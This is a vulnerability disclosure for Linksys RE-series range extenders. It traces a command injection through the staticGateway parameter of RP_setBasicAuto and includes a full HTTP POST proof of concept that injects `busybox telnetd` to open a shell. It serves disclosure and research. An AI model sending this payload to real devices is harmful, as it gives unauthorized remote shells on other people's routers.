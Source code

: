 # Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500



## Vulnerability description

We found an command Injection vulnerability in Linksys router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `mod_form.so` binary:

In `RP_setBasicAuto` function, `staticGateway` is directly passed by the attacker, so we can control the `staticGateway` to attack the OS.

As you can see here, the input has not been checked. And then,call the function `nvram_bufset ` to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

<div  align="center"><img src="./images/2.png" style="zoom:60%;" /></div>

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

`mod_form.so->internet.sh->um_inspect_cross_band`

In `um_inspect_cross_band` binary:

Eventually, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/4.png" style="zoom:60%;" /></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.

> RP_setBasicByBBS、setWan function exists the same problem, also can set the value of staticIp.



## PoC

We set `staticGateway` as **192.168.1.1`busybox telnetd`** , and the router will excute it,such as:

```http
POST /goform/RP_setBasicAuto HTTP/1.1
Host: 192.168.1.12
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1388
Origin: http://192.168.1.12
Connection: close
Referer: http://192.168.1.12/wireless/wireless_basic.shtml
Cookie: session_id=w3vaYGwYWBt8eHjbBEsywfj5PGMSsDMo
Upgrade-Insecure-Requests: 1

hname=RE6500-565&fname=Linksys+Range+Extender&cType=STATIC&staticIp=192.168.1.12&staticNetmask=255.255.255.0&staticGateway=192.168.1.1`busybox telnetd`&staticPriDns=192.168.1.251&staticSecDns=&staticTrdDns=&TZ=UCT_-04&save_time=0&device_mode=3&ap_disable_2G=0&ap_mode_2G=9&ap_ssid_2G=NETGEAR15_Ext&ap_encrypt_2G=AES&ap_AuthMode_2G=WPA2-PSK&ap_DefaultKeyID_2G=&ap_Key1Str1_2G=&ap_Key2Str1_2G=&ap_Key3Str1_2G=&ap_Key4Str1_2G=&ap_EncKey_2G=d2lkZWFwcGxlMzcy&ap_channel_2G=0&ap_ext_channel_2G=0&ap_channelWidth_2G=1&ssid_broadcast_AP_2G=2&needset_WscConfigured_2G=1&apcli_ssid_2G=NETGEAR15&apcli_encrypt_2G=AES&apcli_AuthMode_2G=WPA2-PSK&apcli_DefaultKeyID_2G=&apcli_Key1Str1_2G=&apcli_Key2Str1_2G=&apcli_Key3Str1_2G=&apcli_Key4Str1_2G=&apcli_EncKey_2G=d2lkZWFwcGxlMzcy&apcli_channel_2G=0&apcli_channelWidth_2G=1&ap_disable_5G=0&ap_mode_5G=14&ap_ssid_5G=NETGEAR15-5G_Ext&ap_encrypt_5G=AES&ap_AuthMode_5G=WPA2-PSK&ap_DefaultKeyID_5G=&ap_Key1Str1_5G=&ap_Key2Str1_5G=&ap_Key3Str1_5G=&ap_Key4Str1_5G=&ap_EncKey_5G=d2lkZWFwcGxlMzcy&ap_channel_5G=0&ap_ext_channel_5G=0&ap_channelWidth_5G=2&ssid_broadcast_AP_5G=2&needset_WscConfigured_5G=1&apcli_ssid_5G=NETGEAR15-5G&apcli_encrypt_5G=AES&apcli_AuthMode_5G=WPA2-PSK&apcli_DefaultKeyID_5G=&apcli_Key1Str1_5G=&apcli_Key2Str1_5G=&apcli_Key3Str1_5G=&apcli_Key4Str1_5G=&apcli_EncKey_5G=d2lkZWFwcGxlMzcy&apcli_channel_5G=0&apcli_channelWidth_5G=2&b64_pwd=1
```



## Result

Get a shell!

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>

